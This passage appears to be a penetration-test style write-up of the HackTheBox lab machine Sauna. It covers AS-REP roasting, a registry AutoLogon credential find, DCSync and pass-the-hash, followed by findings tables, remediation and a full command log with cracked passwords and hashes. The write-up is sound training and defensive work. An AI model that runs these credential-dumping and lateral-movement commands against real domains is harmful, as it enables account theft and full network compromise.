

**Result:** Authentication was successful. A shell was obtained as `egotisticalbank\svc_loanmgr`.

---

### 3.3. BloodHound Analysis

BloodHound was used to collect domain telemetry as `svc_loanmgr` and identify privilege escalation paths:

```
sudo apt install bloodhound
sudo pip install bloodhound-python
bloodhound-python -u svc_loanmgr -p 'Moneymakestheworldgoround!' \
  -d egotistical-bank.local -ns 10.129.95.180 -c All --dns-tcp
zip info.zip *.json
bloodhound
```



**Findings:** BloodHound confirmed that `svc_loanmgr` holds three ACEs on the domain object:

| Permission      | Significance                                                                              |
| --------------- | ----------------------------------------------------------------------------------------- |
| `GetChanges`    | Allows replication of non-sensitive domain data                                           |
| `GetChangesAll` | Allows replication of sensitive domain data including all password hashes                 |
| `DCSync`        | Combined effect: the account can impersonate a DC and pull all credentials from NTDS.DIT  |

`GetChanges` combined with `GetChangesAll` is equivalent to full DCSync capability — the ability to replicate all password hashes from Active Directory over the network using standard replication protocols, without code execution on the DC.

---

### 3.4. DCSync Attack

`secretsdump.py` was used to perform the DCSync attack and extract the Administrator's credentials:

```
secretsdump.py egotistical-bank/svc_loanmgr@10.129.95.180 -just-dc-user Administrator
```



**Administrator NTLM hash:** `823452073d75b9d1cf70ebdf86c7f98e`

The NTLM hash does not need to be cracked — it can be used directly for authentication via pass-the-hash.

---

### 3.5. Pass-the-Hash and Full Domain Compromise

`psexec.py` was used with the extracted hash to authenticate as Administrator without the plaintext password:

```
psexec.py egotistical-bank.local/administrator@10.129.95.180 -hashes :823452073d75b9d1cf70ebdf86c7f98e
whoami
more C:\Users\Administrator\Desktop\root.txt
```



**Result:** A SYSTEM-level shell was obtained on the Domain Controller. Full domain compromise achieved.

**root.txt:** `64e58cb21707a225595151bb786909fd`

---

## Technical Findings Details

### 1. DCSync Privileges on svc_loanmgr Enabling Full Domain Hash Extraction — Critical

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| ---------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-732: Incorrect Permission Assignment for Critical Resource                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| **CVSS 3.1 Score**                 | 9.9 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Description (Incl. Root Cause)** | The `svc_loanmgr` account holds `GetChanges` and `GetChangesAll` directory replication ACEs on the `EGOTISTICAL-BANK.LOCAL` domain object. Together these constitute full DCSync capability — the ability to replicate all password hashes and Kerberos keys from Active Directory as if the requester were another domain controller. This is performed entirely over the network using standard replication protocols, requiring no code execution on the DC. The root cause is an over-permissive ACE assigned to a loan management service account that has no operational need to replicate domain credentials. |
| **Security Impact**                | Any attacker who compromises `svc_loanmgr` can extract the NTLM hash of every domain account — including the Administrator — and authenticate as any user without knowing their plaintext password. This constitutes complete domain compromise. In this assessment, the Administrator hash was extracted and used to obtain a SYSTEM shell within seconds.                                                                                                                                                                                           |
| **Affected Host(s)**               | `SAUNA / 10.129.95.180` — DCSync ACE on `svc_loanmgr` against `DC=EGOTISTICAL-BANK,DC=LOCAL`                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| **Remediation**                    | - Remove the `GetChanges` and `GetChangesAll` ACEs from `svc_loanmgr` on the domain object immediately — Reset the `svc_loanmgr` password, rotate the domain Administrator password, and reset the KRBTGT account password twice (10 hours apart) to invalidate existing tickets — Audit all accounts holding DCSync rights using BloodHound; restrict these rights exclusively to domain controllers and a small number of explicitly approved accounts — Implement monitoring for DCSync activity via Windows Event ID 4662 |
| **References**                     | [MITRE ATT&CK: T1003.006 — OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/) · [MITRE ATT&CK: T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/) · [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html) |

**Evidence:**

```bash
# DCSync ACEs confirmed in BloodHound:
# svc_loanmgr → GetChanges, GetChangesAll, DCSync → EGOTISTICAL-BANK.LOCAL

# Administrator hash extracted:
secretsdump.py egotistical-bank/svc_loanmgr@10.129.95.180 -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::

# SYSTEM shell via pass-the-hash:
psexec.py egotistical-bank.local/administrator@10.129.95.180 -hashes :823452073d75b9d1cf70ebdf86c7f98e
# whoami → nt authority\system
```

`Screenshot bloodhounddcsync.png: BloodHound confirming GetChanges, GetChangesAll, and DCSync edges from svc_loanmgr to the domain`
`Screenshot asreproasting.png: secretsdump.py extracting the Administrator NTLM hash via DCSync`

---

### 2. Kerberos Pre-Authentication Disabled on fsmith (AS-REP Roastable) — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-307: Improper Restriction of Excessive Authentication Attempts                                                                                                                                                                                                                                                                                                                                                                                                                  |
| **CVSS 3.1 Score**                 | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                                                       |
| **Description (Incl. Root Cause)** | The `fsmith` account has the `DONT_REQUIRE_PREAUTH` flag set in Active Directory. Kerberos pre-authentication requires a client to prove knowledge of their password before the KDC issues an AS-REP ticket. Without this requirement, any unauthenticated user can request an AS-REP ticket for `fsmith` and receive a response containing a portion encrypted with the account's password hash, which can be cracked offline with no rate limiting or lockout risk. The root cause is either a deliberate but unnecessary configuration or an inadvertent setting that was never audited. |
| **Security Impact**                | An unauthenticated attacker on the network who knows the username `fsmith` can retrieve and crack the account's password offline. Combined with the employee name disclosure (Finding #4), this required no prior domain access whatsoever. The cracked password provided the initial WinRM foothold and led to the AutoLogon credentials and eventually full domain compromise.                                                                                                       |
| **Affected Host(s)**               | `SAUNA / 10.129.95.180` — `CN=fsmith,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL` (DONT_REQUIRE_PREAUTH flag)                                                                                                                                                                                                                                                                                                                                                                            |
| **Remediation**                    | - Enable Kerberos pre-authentication on `fsmith` immediately by clearing the `DONT_REQUIRE_PREAUTH` flag — Reset `fsmith`'s password as `Thestrokes23` is compromised — Audit all domain accounts for this flag: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}` and enable pre-authentication on every account lacking a documented operational reason — Add alerting for AS-REP ticket requests (Event ID 4768 with Encryption Type 0x17) |
| **References**                     | [MITRE ATT&CK: T1558.004 — Steal or Forge Kerberos Tickets: AS-REP Roasting](https://attack.mitre.org/techniques/T1558/004/) · [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html) |

**Evidence:**

```bash
while read p; do GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass \
  -dc-ip 10.129.95.180 >> hash.txt; done < unames.txt
# $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:a55542b3...778eab15

hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force
# fsmith:Thestrokes23 — cracked in < 30 seconds
```

`Screenshot tgtticket.png: GetNPUsers.py returning an AS-REP hash for fsmith while all other usernames fail`
`Screenshot crackedtgthash.png: hashcat cracking the fsmith AS-REP hash to Thestrokes23`

---

### 3. AutoLogon Credentials Stored in Plaintext in Windows Registry — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-312: Cleartext Storage of Sensitive Information                                                                                                                                                                                                                                                                                                                                                                                                            |
| **CVSS 3.1 Score**                 | 6.5 (Medium) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                                |
| **Description (Incl. Root Cause)** | The Windows AutoLogon feature was configured for the `svc_loanmanager` account, storing its domain password in plaintext at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` under the `DefaultPassword` key. This registry location is readable by any authenticated user with access to the system, including via a remote shell. winPEAS automatically identified and extracted these credentials. The root cause is the use of AutoLogon on a domain-joined system for a privileged service account, persisting its password in a well-known, unprotected registry location. |
| **Security Impact**                | Any user with a shell on the system can read the `svc_loanmanager` plaintext password from the registry. Since `svc_loanmgr` holds DCSync rights on the domain (Finding #1), recovery of this password was the direct bridge from a standard user foothold to full domain compromise.                                                                                                                                                                          |
| **Affected Host(s)**               | `SAUNA / 10.129.95.180` — `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` (DefaultPassword key)                                                                                                                                                                                                                                                                                                                                                  |
| **Remediation**                    | - Disable AutoLogon and clear the `DefaultPassword` registry value immediately — Rotate the `svc_loanmanager` / `svc_loanmgr` password — Never configure AutoLogon using a privileged or service account; if operationally required, use a dedicated, minimally-privileged account with no network or domain-level rights — Audit all domain-joined systems for AutoLogon configuration via Group Policy or registry scanning |
| **References**                     | [MITRE ATT&CK: T1552.002 — Unsecured Credentials: Credentials in Registry](https://attack.mitre.org/techniques/T1552/002/) · [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html) |

**Evidence:**

```
# winPEAS AutoLogon section output:
# DefaultDomainName  : EGOTISTICALBANK
# DefaultUserName    : EGOTISTICALBANK\svc_loanmanager
# DefaultPassword    : Moneymakestheworldgoround!
```

`Screenshot credentialsfound.png: winPEAS highlighting the AutoLogon credentials for svc_loanmanager stored in the registry`

---

### 4. Employee Full Names Enumerable from Public Website — Medium

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                              |
| ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-200: Exposure of Sensitive Information to an Unauthorized Actor                                                                                                                                                                                                                                                                                                                                   |
| **CVSS 3.1 Score**                 | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`                                                                                                                                                                                                                                                                                                                                       |
| **Description (Incl. Root Cause)** | The organization's public website (`about.html`) lists the full names of six employees with their photographs. In Active Directory environments, domain usernames are typically derived directly from employee names using predictable conventions. Publishing a staff directory on a public website therefore provides an unauthenticated attacker with the primary ingredient needed to construct a targeted username list for credential attacks such as AS-REP roasting, password spraying, or brute-force attempts. |
| **Security Impact**                | The six names from the website were sufficient to generate 24 plausible username variants. The `fsmith` variant matched an active domain account with pre-authentication disabled, enabling the AS-REP roasting attack that initiated the full compromise chain. Without the public name listing, this attack path would have required additional reconnaissance steps.                                  |
| **Affected Host(s)**               | `http://10.129.95.180/about.html` — public staff directory page                                                                                                                                                                                                                                                                                                                                      |
| **Remediation**                    | - Review whether publishing individual employee full names is operationally necessary; consider displaying only roles or first names — Implement Kerberos pre-authentication on all accounts (see Finding #2) and an account lockout policy so that known usernames cannot be attacked offline or via spraying — If names must be published, use name formats that do not directly correspond to authentication usernames |
| **References**                     | [MITRE ATT&CK: T1589.003 — Gather Victim Identity Information: Employee Names](https://attack.mitre.org/techniques/T1589/003/) · [MITRE ATT&CK: T1087.002 — Account Discovery: Domain Account](https://attack.mitre.org/techniques/T1087/002/) · [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html) |

**Evidence:**

```
# Names recovered from http://10.129.95.180/about.html:
# Fergus Smith, Shaun Coins, Hugo Bear, Bowie Taylor, Sophie Driver, Steven Kerb
# username-anarchy produced: fsmith → matched active AD account fsmith
```

`Screenshot abouthtml.png: about.html listing all six employee full names with photographs`
`Screenshot usernameanarchy.png: username-anarchy generating 24 variants from the harvested names`

---

## Remediation Summary

### Short Term

- **Finding #1 (DCSync)** — Remove the `GetChanges` and `GetChangesAll` ACEs from `svc_loanmgr` immediately. Reset the `svc_loanmgr` password, rotate the Administrator password, and reset the KRBTGT key twice (10 hours apart).
- **Finding #2 (AS-REP Roasting)** — Enable Kerberos pre-authentication on `fsmith` and reset its password — `Thestrokes23` is compromised.
- **Finding #3 (AutoLogon Credentials)** — Disable AutoLogon, clear the `DefaultPassword` registry key, and rotate the `svc_loanmanager` password.
- **Finding #4 (Employee Names)** — Review the public website's About page and reduce the granularity of personally identifying information where the business case permits.

### Medium Term

- **Finding #1 (DCSync)** — Conduct a full audit of all accounts holding DCSync rights using BloodHound. These rights should exist only on domain controllers and a small number of explicitly approved accounts. Implement Event ID 4662 monitoring for DCSync activity.
- **Finding #2 (AS-REP Roasting)** — Run `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}` across the domain and enable pre-authentication on every account that lacks a documented operational justification for the setting.
- **Finding #3 (AutoLogon Credentials)** — Audit all domain-joined systems for AutoLogon configuration. Prohibit the use of AutoLogon with privileged or service accounts via Group Policy.
- **Finding #4 (Employee Names)** — Establish a data minimisation policy for what employee information may be published on external-facing websites.

### Long Term

- Implement Active Directory tiering (Tier 0/1/2) to ensure service accounts such as `svc_loanmgr` can never accumulate domain-level replication privileges. Only Tier-0 accounts should hold DCSync rights.
- Deploy a SIEM with alerting on credential-related event IDs (4662 for replication, 4768/4769 for Kerberos tickets, 4625 for failed logins) to detect AS-REP roasting, DCSync, and pass-the-hash activity in real time.
- Adopt a secrets management platform so service account credentials are never stored in registry keys, AutoLogon settings, or other plaintext locations.
- Establish a recurring quarterly review of Active Directory privileged ACEs and group memberships using BloodHound to detect privilege drift before it can be exploited.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: OSINT-Driven Username Enumeration.** Identified a public staff directory on the target website and extracted six employee full names from the About page. Used `username-anarchy` to generate 24 plausible Active Directory username variants covering common corporate naming conventions, demonstrating the intelligence value of web content review as a zero-interaction reconnaissance step.

**Skill/Technique 2: AS-REP Roasting Against a Generated Username List.** Iterated the generated username list against `GetNPUsers.py` to identify accounts with Kerberos pre-authentication disabled, recovering an offline-crackable AS-REP hash for `fsmith` without any authentication. Used hashcat with mode 18200 against `rockyou.txt` to recover the plaintext password in under 30 seconds, demonstrating the end-to-end AS-REP roasting workflow from username generation to cracked credential.

**Skill/Technique 3: AutoLogon Credential Recovery via winPEAS.** After gaining a foothold, uploaded and executed `winPEASx64` to automate post-exploitation enumeration and identified plaintext credentials stored in the Windows AutoLogon registry keys — a high-impact finding that is frequently overlooked on systems configured for automatic sign-in.

**Skill/Technique 4: BloodHound-Driven DCSync Identification and Exploitation.** Collected domain telemetry via `bloodhound-python` as `svc_loanmgr`, confirmed DCSync rights in BloodHound, and used `secretsdump.py` to extract the Administrator NTLM hash via the DCSync attack protocol. Authenticated with `psexec.py` using the extracted hash (pass-the-hash) to obtain a SYSTEM shell on the Domain Controller, achieving full domain compromise.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                    | Method                                                          | Notes                                                             |
| ----------------------- | --------------------------------------------------------------- | ----------------------------------------------------------------- |
| `10.129.95.180:80`      | Web content review — employee names harvested from about.html   | Enabled targeted username generation for AS-REP roasting          |
| `10.129.95.180:88`      | AS-REP roasting via GetNPUsers.py                               | fsmith AS-REP hash retrieved without authentication               |
| `10.129.95.180:5985`    | Credential-based WinRM (fsmith:Thestrokes23)                    | Initial foothold; user.txt captured                               |
| `10.129.95.180:5985`    | Credential-based WinRM (svc_loanmgr:Moneymakestheworldgoround!) | Lateral movement; DCSync performed                               |
| `SAUNA / 10.129.95.180` | DCSync + pass-the-hash via psexec.py                            | SYSTEM shell as NT AUTHORITY\SYSTEM; root.txt captured            |

### C. Compromised Users / Credentials

| Username                        | Method                                                              | Notes                                                        |
| ------------------------------- | ------------------------------------------------------------------- | ------------------------------------------------------------ |
| `fsmith`                        | AS-REP hash cracked offline with hashcat (rockyou.txt)              | Initial WinRM foothold; user.txt captured                    |
| `svc_loanmanager` / `svc_loanmgr` | Plaintext AutoLogon credentials in registry recovered by winPEAS  | Lateral movement; holds DCSync rights on domain              |
| `Administrator`                 | NTLM hash extracted via DCSync with svc_loanmgr                    | Full domain compromise via pass-the-hash; root.txt captured  |

### D. Command Reference Log

```bash
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap 10.129.95.180 -sC -sV -Pn
echo "10.129.95.180 EGOTISTICAL-BANK.LOCAL" | sudo tee -a /etc/hosts

sudo python3 ./windapsearch.py -d egotistical-bank-local --dc-ip 10.129.95.180 -U
GetADUsers.py egotistical-bank.local/ -dc-ip 10.129.95.180 -debug
smbclient -L \\\\10.129.95.180 -N
ffuf -w /usr/share/wordlists/dirb/common.txt:fuzz -u http://10.129.95.180/fuzz
# Browse to http://10.129.95.180/about.html → harvest 6 employee names

# ──────────────────────────────────────────────
# PHASE 2: USERNAME GENERATION & AS-REP ROASTING
# ──────────────────────────────────────────────
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy --input-file fullnames.txt \
  --select-format first,flast,first.last,firstl > unames.txt

wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/GetNPUsers.py
while read p; do GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass \
  -dc-ip 10.129.95.180 >> hash.txt; done < unames.txt

hashcat --help | grep kerberos
hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force
# fsmith:Thestrokes23

# ──────────────────────────────────────────────
# PHASE 3: INITIAL FOOTHOLD
# ──────────────────────────────────────────────
evil-winrm -i 10.129.95.180 -u fsmith -p 'Thestrokes23'
whoami
# egotisticalbank\fsmith
cd c:\users\fsmith\desktop
cat user.txt
# f4269befbc2f8d834a09a9571945c132

# ──────────────────────────────────────────────
# PHASE 4: POST-EXPLOITATION & LATERAL MOVEMENT
# ──────────────────────────────────────────────
wget https://github.com/peass-ng/PEASS-ng/releases/download/20260926-0978bc5f/winPEASx64.exe
upload winPEASx64.exe
.\winPEASx64.exe
# AutoLogon: svc_loanmanager / Moneymakestheworldgoround!

evil-winrm -i 10.129.95.180 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
whoami
# egotisticalbank\svc_loanmgr

# ──────────────────────────────────────────────
# PHASE 5: BLOODHOUND & DCSYNC
# ──────────────────────────────────────────────
sudo apt install bloodhound
sudo pip install bloodhound-python
bloodhound-python -u svc_loanmgr -p 'Moneymakestheworldgoround!' \
  -d egotistical-bank.local -ns 10.129.95.180 -c All --dns-tcp
zip info.zip *.json
bloodhound
# svc_loanmgr DCSync rights confirmed

wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/secretsdump.py
secretsdump.py egotistical-bank/svc_loanmgr@10.129.95.180 -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::

# ──────────────────────────────────────────────
# PHASE 6: PASS-THE-HASH & FULL COMPROMISE
# ──────────────────────────────────────────────
wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/psexec.py
psexec.py egotistical-bank.local/administrator@10.129.95.180 \
  -hashes :823452073d75b9d1cf70ebdf86c7f98e
whoami
# nt authority\system
more C:\Users\Administrator\Desktop\root.txt
# 64e58cb21707a225595151bb786909fd
```

### E. References

- [MITRE ATT&CK: T1589.003 — Gather Victim Identity Information: Employee Names](https://attack.mitre.org/techniques/T1589/003/)
- [MITRE ATT&CK: T1087.002 — Account Discovery: Domain Account](https://attack.mitre.org/techniques/T1087/002/)
- [MITRE ATT&CK: T1558.004 — Steal or Forge Kerberos Tickets: AS-REP Roasting](https://attack.mitre.org/techniques/T1558/004/)
- [MITRE ATT&CK: T1552.002 — Unsecured Credentials: Credentials in Registry](https://attack.mitre.org/techniques/T1552/002/)
- [MITRE ATT&CK: T1003.006 — OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [MITRE ATT&CK: T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)
- [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [Microsoft Documentation: Kerberos Pre-Authentication](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [Official HackTheBox Sauna Machine Page](https://app.hackthebox.com/machines/Sauna)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are Active Directory misconfigurations, insecure credential storage practices, and information disclosure issues rather than vulnerabilities in versioned third-party software with public CVE assignments. Remediation is therefore configuration- and policy-based.
